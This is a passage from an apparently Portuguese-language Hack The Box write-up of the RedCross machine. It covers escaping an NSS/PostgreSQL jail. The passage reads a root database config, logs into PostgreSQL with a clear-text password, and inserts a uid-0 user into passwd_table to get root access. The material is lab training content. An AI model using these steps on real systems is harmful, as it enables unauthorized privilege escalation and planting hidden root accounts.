 `select * from passwd_table;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_unix1.png)

Sim, foi criado!

Agora nos conectamos via SSH

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_unix2.png)

Tentamos ler a flag, e vemos que não é possível, mesmo sendo "root"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_unix3.png)

Qual o problema?

### Verificando configuração psql

O problema aqui é que caimos em uma espécie de jail, baseada em algo chamado Name Service Switch, o que habilita vc a guardar informações de grupos e usuários em um banco de dados. PostgreSQL tem um plugin muito bom para isso, refência é o blog do 0xdf e este link (http://www.karoltomala.com/blog/?p=869)

Verificando o artigo, descobrimos que temos dois arquivos de configuração que definem como será a query da database, o `nss-pgsql.conf` e o `nss-psql-root.conf`, podemos ver os dois na máquina

`ls -l nss-pgsql*`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_pg.png)

Verificamos qual é o conteúdo do nss-pgsql-root.conf

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_pg1.png)

Bom, agora vamos nos conectar ao banco de dados com a senha de root

### Criando usuário "root"

Entramos no banco de dados

> psql -h 127.0.0.1 -U unixnssroot -p 5432 -d unix

Senha: 30jdsklj4d_3

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_pg2.png)

Adicionamos novo usuário `teste2`

> insert into passwd_table (username, passwd, uid, gid, homedir) values ('teste2', '$1$gFlFdvYZ$GLMwhyZxxPBiTianGcbdX1', 0, 0, '/root');

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_pg3.png)

Verificamos se foi adicionado

> select * from passwd_table;
